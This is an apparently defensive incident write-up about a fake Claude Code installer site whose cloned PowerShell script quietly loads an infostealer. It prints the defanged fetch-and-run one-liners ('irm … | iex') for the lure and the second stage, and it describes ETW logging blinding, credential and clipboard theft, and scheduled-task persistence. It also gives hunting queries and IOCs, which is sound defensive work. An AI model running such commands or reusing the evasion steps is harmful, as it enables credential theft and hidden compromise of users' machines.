Summary: A user trying to install Claude Code was lured to a fraudulent site and ran
its one-line PowerShell command. The script was a near-perfect copy of Anthropic's real
installer — it even installs a genuine, working claude.exe — but two lines were
spliced in to pull a dropper. What followed was a full infostealer (browser passwords,
passkeys, Wi-Fi/RDP/credential-vault, clipboard, screenshots) plus a scheduled-task HTTP C2,
all while disabling PowerShell logging and running entirely in memory.

This one is nasty precisely because it works. The victim gets a real, functioning Claude Code install and sees nothing wrong — so there's no reason to report anything. The only tell was on the back end: a PowerShell process quietly reaching out to a domain that had no business being in an installer.
The user was redirected to a site impersonating the Claude Code installer landing page and ran the command it displayed:
irm hxxps://use-code[.]com/install.ps1 | iex
The script is a near-perfect clone of Anthropic's legitimate Claude Code Windows installer:
it downloads the real claude.exe from the authentic Google Cloud Storage bucket,
verifies its genuine SHA-256, and runs the real install. The user ends up with a working
Claude Code — raising no suspicion. The catch: two extra lines spliced in at lines 28–29.

Shell.Application to launch a hidden irm api.bio9438[.]com | iex.That hidden second stage fetched an obfuscated downloader from api.bio9438[.]com,
which reduced to a small script that runs two further PowerShell payloads in parallel.


reshow35[.]com and celsius.proper829[.]com payloads in parallel.The first payload disables PowerShell's detection plumbing and uses reflective, in-memory
loading so nothing touches disk. It reaches into PSEtwLogProvider — the component
that forwards PowerShell script blocks to Defender — and flips its m_enabled field
to 0, significantly blinding detection.

PSEtwLogProvider ETW logging.With logging blinded, the stealer loaded the .NET assemblies it needed:
System.Security to decrypt browser-stored passwords and passkeys,
System.Windows.Forms for clipboard access, and System.Drawing for
screenshots. It then harvested the full credential vault — Wi-Fi, RDP, and every
CredWrite-stored application credential — base64-encoding each for exfiltration.
Defender surfaced the credential and clipboard theft:
| EDR event | Detail | Technique |
|---|---|---|
powershell.exe attempted to decrypt credentials | Microsoft Edge — UnprotectData (DPAPI); flagged "Suspicious DPAPI Activity" (High) | T1555.003, T1555.004 |
svchost.exe read clipboard data | via API call CClipDataObject::GetData | T1115 |

Before infecting, the malware checks the host's locale and skips Russian-speaking regions and Iran — a common "don't hit home" guardrail.

Test-IsExcludedRegion allow-list — Russia, Iran and CIS locales are spared.It fingerprints the host (username + MachineGuid from the registry) and reports
to its C2, identified by a campaign GUID.
| Time (2026-05-13) | EDR event | Technique |
|---|---|---|
| 13:41:53 | powershell.exe created process whoami.exe | — |
| 13:41:53 | powershell.exe performed system owner/user discovery by invoking whoami | T1033 |

olive3451[.]com with a per-campaign identifier.The persistence and C2 modules were registered as a scheduled task so the
malware survives reboots. The C2 module spins up a local HTTP listener that takes JSON commands
to inject/patch running processes or execute code — all confined to localhost and
fronted by compromised websites.
| EDR event | Command line | Technique |
|---|---|---|
| Headless PowerShell launched by scheduled task | conhost.exe --headless powershell -ep bypass -file C:\ProgramData\onedrive-sync.ps1 | T1053.005 |


HttpListener on 127.0.0.1:58172.A full Joe Sandbox analysis confirmed the capability set:


onedrive-sync.ps1 — architecture, C2 JSON protocol, execution flow, and anti-detection techniques.View the full Joe Sandbox report
Hunting the IOCs across the estate confirmed the blast radius was a single host — no other systems talked to the malicious infrastructure. The outbound connections to the IOC domains:
| Initiating process | Remote URL |
|---|---|
msedge.exe | use-code[.]com |
powershell.exe | olive3451[.]com |
powershell.exe | reshow35[.]com |
powershell.exe | api.bio9438[.]com |
The Advanced Hunting (KQL) query used to scope the IOCs across endpoints:
let back = 30d;
let iocRoots = dynamic(["proper829.com","show35.com","reshow35.com",
"olive3451.com","bio9438.com","use-code.com"]);
DeviceProcessEvents
| where Timestamp > ago(back)
| where ProcessCommandLine has_any (iocRoots)
or InitiatingProcessCommandLine has_any (iocRoots)
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine,
InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp desc
| Tactic | Technique |
|---|---|
| Initial Access / Execution | T1204.004 — User Execution: Malicious Copy and Paste |
| Execution | T1059.001 — Command and Scripting Interpreter: PowerShell |
| Defense Evasion | T1027 — Obfuscated Files or Information |
| Defense Evasion | T1562.006 — Impair Defenses: Indicator Blocking (disable ETW) |
| Defense Evasion | T1620 — Reflective Code Loading (in-memory) |
| Defense Evasion | T1564.003 — Hide Artifacts: Hidden Window |
| Credential Access | T1555.003 — Credentials from Web Browsers |
| Credential Access | T1555.004 — Credentials from Password Stores: Windows Credential Manager |
| Collection | T1115 — Clipboard Data |
| Collection | T1113 — Screen Capture |
| Discovery | T1033 — System Owner/User Discovery |
| Discovery | T1614 — System Location Discovery (region check) |
| Persistence | T1053.005 — Scheduled Task |
| Command and Control | T1071.001 — Application Layer Protocol: Web Protocols |
| Command and Control | T1105 — Ingress Tool Transfer |
| Type | Indicator |
|---|---|
| Lure / installer domain | use-code[.]com (install.ps1) |
| Dropper domain | api.bio9438[.]com |
| Payload / C2 domains | celsius.proper829[.]com, show35[.]com, reshow35[.]com, olive3451[.]com |
| Local C2 listener | http://127.0.0.1:58172/ (JSON over HTTP) |
| Persistence | Scheduled task running C:\ProgramData\onedrive-sync.ps1 |
| SHA-256 | 248be398f9d3a57ec0f5884b836b5cd0f3c6c261eb868a9eb4974949e7e2643a |